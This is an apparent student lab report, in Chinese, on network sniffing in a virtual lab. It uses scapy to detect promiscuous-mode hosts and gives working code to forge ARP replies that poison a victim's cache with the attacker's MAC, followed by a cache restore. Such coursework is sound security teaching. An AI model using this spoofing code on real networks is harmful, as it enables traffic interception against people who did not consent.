

# 实验四 网络监听

## 实验准备

网络拓扑图


网络中节点基本信息

- 攻击者主机

  - 08:00:27:22:46:4f/eth0

  - 172.16.222.124

    

- 受害者主机

  - 08:00:27:3c:dc:98/enp0s3

  - 172.16.222.140

    

- 网关

  - 08:00:27:94:92:b1/enp0s10

  - 172.16.222.1

    

## 实验过程

#### 检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```


```
# 在攻击者主机上开启 scapy
sudo scapy
```


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.140")
```


此时并没有收到回应。

**注意：此时不可在受害者主机上开启抓包，因为抓包就是开启了混杂模式，从而就会收到回应。**

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
```


```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.140")
```


可以发现，受害者主机开启混杂模式后，就可以收到回复。

> 混杂模式：接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址。
>
> promiscping：Send ARP who-has requests to determine which hosts are in promiscuous mode

#### 手工单步“毒化”目标主机ARP缓存

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```


网关MAC地址为`08:00:27:94:92:b1`

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.140
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.140", hwdst="08:00:27:22:46:4f")

# 发送上述伪造的 ARP 响应数据包到受害者主机

sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

]

可以发现网关的MAC已经变成了攻击者主机的MAC。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:94:92:b1", pdst="172.16.222.140", hwdst="08:00:27:3c:dc:98")
sendp(restorepkt1, count=100, inter=0.2)
```


此时再次查看受害者主机的ARP缓存


## 参考资料

[实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)